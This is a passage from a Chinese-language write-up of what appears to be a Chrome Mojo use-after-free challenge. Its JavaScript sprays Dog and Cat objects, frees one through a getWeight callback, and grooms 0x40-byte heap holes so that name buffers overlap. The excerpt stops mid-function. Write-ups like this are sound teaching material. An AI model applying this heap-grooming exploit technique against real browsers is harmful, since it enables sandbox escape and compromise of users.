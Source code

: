 
还要搞清楚的是对象类型的大小，可以断点断在`CreatePerson`、`CreateDog`以及`CreateCat`上，最终可以确定接口内存的大小为`0x40`。

首先是申请`8`个`Dog`，对应`name`申请的大小也是`0x40`：

```js
    let dogCount = 8;
    let catCount = 0x10;

    // create 8 dogs with the same size of name
    let dogPtrArr = [];
    let catPtrArr = [];
    for (let i=0; i<dogCount; i++) {
        let dogPtr = (await mojoPtr.createDog()).dog;
        await dogPtr.setName('a'.repeat(stringSize))
        dogPtrArr.push(dogPtr);
    }
```

然后绑定`FoodInterface`的实现，用于后续触发漏洞。

```js
 		// get the FoodInterface in render process
    var foodInterfacePtr = new blink.mojom.FoodInterfacePtr();
    var foodInterfaceRequest = mojo.makeRequest(foodInterfacePtr);
    var foodInterfaceBinding = new mojo.Binding(
        blink.mojom.FoodInterface,
        new FoodInterfaceImpl(),
        foodInterfaceRequest);
```

接着调用对最后一个`Dog`对象调用`cookAndEat`函数。

```js
    // trigger uaf vuln
    dogPtrArr[dogPtrArr.length-1].cookAndEat(foodInterfacePtr)
```

来看关键的`cookAndEat`函数的实现，如下所示。在最开始释放掉最后一个`Dog`对象（利用`ptr.reset()`函数），然后对所有的`Dog`对象的`name`字段分配更大的空间，以空余出`0x40`大小的`hole`来布置堆风水；申请多个`Cat`对象来填充这些释放的内存，最后再为这些`Cat`分配与对象大小相同的`name`。

最终达到的效果是某个`Cat`对象占用了我们释放的`Dog`内存，同时它的`name`指针加上`0x40`刚好是另一个`Cat`对象的`name`指针。

因为漏洞触发`Cat`对象（被释放的`Dog`对象）的`name`指针（`Dog`字段的`weight`字段）加上`FoodInterfaceImpl.prototype.getWeight`返回的`0x40`，指向了下一片内存，刚好是另一个`Cat`对象`name`字段，形成了重叠的内存块。

```js
   	// the getWeight of FoodInterfaceImpl, which  forms a uaf vuln.
    FoodInterfaceImpl.prototype.getWeight = async function() {

        // release the last dogPtr
        dogPtrArr.pop().ptr.reset();

        // change the dog's name size, which will leave the a lot of hole (size 0x40)
        for(let i=0; i<dogPtrArr.length; i++) {
            await dogPtrArr[i].setName('a'.repeat(stringSize*100));
        }

        // create cat to fill the hole
        for(let i=0; i<catCount; i++) {
            let catPtr = (await mojoPtr.createCat()).cat;
            catPtrArr.push(catPtr);
        }

        // create cat name(0x40) to fill the hole, there will be two Neighboring name
        for(let i=0; i<catCount; i++) {
            await catPtrArr[i].setName(id2Str(i, stringSize));
        }

```